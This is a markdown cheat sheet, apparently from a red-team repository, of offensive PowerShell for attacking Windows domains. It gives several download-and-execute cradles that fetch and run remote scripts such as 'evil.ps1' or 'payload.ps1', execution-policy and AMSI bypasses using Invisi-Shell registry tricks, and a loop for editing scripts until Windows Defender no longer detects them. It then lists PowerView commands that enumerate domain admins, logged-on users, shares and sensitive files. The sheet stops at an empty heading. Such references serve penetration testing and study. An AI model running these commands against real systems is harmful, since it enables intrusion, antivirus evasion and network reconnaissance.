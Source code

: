 ### Powershell Scripts/Modules


Import Script or Module :heavy_check_mark:
```
Import-Module C:\path\to\script.ps1
```

Find all commands in module 
```
Get-Command -Module <modulename>
```

Download & Execute Cradle :heavy_check_mark:
```
iex (New-Object Net.WebClient) .DownloadString('https://webservers/payload.ps1')
```

??
```
$ie=New-Object -ComObjectInternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```
```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```




### Powershell Detection
- System-wide transcription
- Script Block Logging
- AMSI (AntMalware Scan Interface)
- CLM (Constrained Language Mode)
 - Integration with Applocker & WDAC (Device Guard)

#### Bypasses
##### Execution Policy
:heavy_check_mark:
```
powershell -ExecutionPolicy bypass
```
```
powershell -c <cmd>
```
:heavy_check_mark:
```
powershell -encodedcommand
```
```
$env:PSExecutionPolicyPreference="bypass"
```

#### Security
##### AMSI

[Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) :sparkles:

###### **with admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
```

###### **with non-admin privileges**
```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
```

:broom: can be cleaned up with an *exit* command

#### AV Signatures - Windows Defender
[AMSITrigger](https://github.com/RythmStick/AMSITrigger)
This application will go through the script and indicate where it is being detected
```
AmsiTrigger_x64.exe -i C:\path\*.ps1
```
1. Scan using AMSITrigger
2. Modify the detected code
3. Rescan
4. Repeat the steps 2 & 3 till we get a result as “AMSI_RESULT_NOT_DETECTED” or “Blank”

Further steps can be taken to full obfuscate scripts with [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)



### Enumeration
#### PowerView
Get Current Domain
```
Get-Domain
```

Get object of another domain
```
	Get-Domiain -Domain xxx.local
```

Get domain SID for current domain
```
	Get-DomainSID
```

Get domain policy for the current domain
```
	Get-DomainPolicyData
```

Get domain policy for another domain
```
	Get-DomainPolicyData --domain xxx.local
```

Get domain controllers for the current domain
```
	Get-DomainController
```

Get domain controllers for another domain
```
	Get-DomainController –Domain xxx.local
```

Get a list of users in the current domain
```
	Get-DomainUser
```
```
	Get-DomainUser -Identity <user>
```

Get list of all properties for users in the current domain
```
	Get-DomainUser -Identity <user> -Properties *
```
```
	Get-DomainUser -Properties samaccountname,logonCount
```



Search for a particular string in a user's attributes:
```
	Get-DomainUser -LDAPFilter "Description=*built*" | Select name,Description
```

Get a list of computers in the current domain
```
	Get-DomainComputer | select Name	
```
```
	Get-DomainComputer –OperatingSystem "*Server 2016*"
```
```
	Get-DomainComputer -Ping
```


Get all the groups in the current domain
```
	Get-DomainGroup | select Name	
```
```
	Get-DomainGroup –Domain <targetdomain>
```

Get all groups containing the word "admin" in group name
```
	Get-DomainGroup *admin*
```

Get all the members of the Domain Admins group
```
	Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```

Get the group membership for a user:
```
	Get-DomainGroup –UserName "<user>"
```

List all the local groups on a machine (needs administrator privs on non-dc
machines) :
```
	Get-NetLocalGroup -ComputerName dcorp-dc -ListGroups
```

Get members of all the local groups on a machine 
*(needs administrator privs on non-dc machines)*
```
	Get-NetLocalGroup -ComputerName <corp>-dc -Recurse
```

Get members of the local group "Administrators" on a machine 
*(needs administrator privs on non-dc machines)* :
```
	Get-NetLocalGroupMember -ComputerName <corp>-dc -GroupNameAdministrators
```


Get actively logged users on a computer (needs local admin rights on
the target)
```
	Get-NetLoggedon –ComputerName <servername>
```



Get locally logged users on a computer (needs remote registry on the
target - started by-default on server OS)
```
	Get-LoggedonLocal -ComputerName <corp>-dc
```

Get the last logged user on a computer (needs administrative rights and
remote registry on the target)
```
	Get-LastLoggedOn –ComputerName <servername>
```


Find shares on hosts in current domain.
```
	Invoke-ShareFinder –Verbose
```


Find sensitive files on computers in the domain
```
	Invoke-FileFinder –Verbose
```


Get all fileservers of the domain
```
	Get-NetFileServer
```











#### ActiveDirectory Module










